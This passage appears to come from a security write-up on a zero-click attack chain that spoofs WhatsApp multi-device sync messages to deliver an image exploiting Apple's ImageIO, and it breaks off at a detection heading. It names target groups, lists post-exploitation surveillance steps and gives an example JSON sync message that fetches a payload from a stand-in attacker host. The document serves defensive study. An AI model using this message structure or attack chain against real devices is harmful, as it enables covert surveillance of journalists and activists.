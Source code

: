 ## Attack Methodology

### Phase 1: Target Reconnaissance

Attackers identify high-value targets using WhatsApp's multi-device functionality. Targets typically include:
- Journalists and media personnel
- Human rights activists
- Government officials
- Corporate executives
- Diplomatic personnel

### Phase 2: Synchronization Spoofing

The attacker crafts malicious synchronization messages that appear to originate from the victim's linked devices:

**Malicious Sync Message Structure:**
```json
{
  "message_type": "device_sync",
  "source_device": "linked_mac_device",
  "action": "media_fetch",
  "content_url": "https://attacker-cdn.com/malicious_payload.jpg",
  "timestamp": "2025-09-04T14:30:00Z",
  "encryption_metadata": "spoofed_encryption_data"
}
```

### Phase 3: Zero-Click Exploitation

Upon receiving the malicious synchronization command, the target device:
1. Validates the message as legitimate device communication
2. Automatically fetches content from the attacker-controlled URL
3. Processes the malicious image through Apple's ImageIO
4. Triggers memory corruption and arbitrary code execution
5. Establishes persistent access without user awareness

### Phase 4: Post-Exploitation Activities

Once code execution is achieved, attackers typically:
- Install surveillance software
- Access encrypted communications
- Activate device sensors (camera, microphone)
- Exfiltrate sensitive data
- Maintain persistent access

## Detection Strategies

### Network-Based Detection
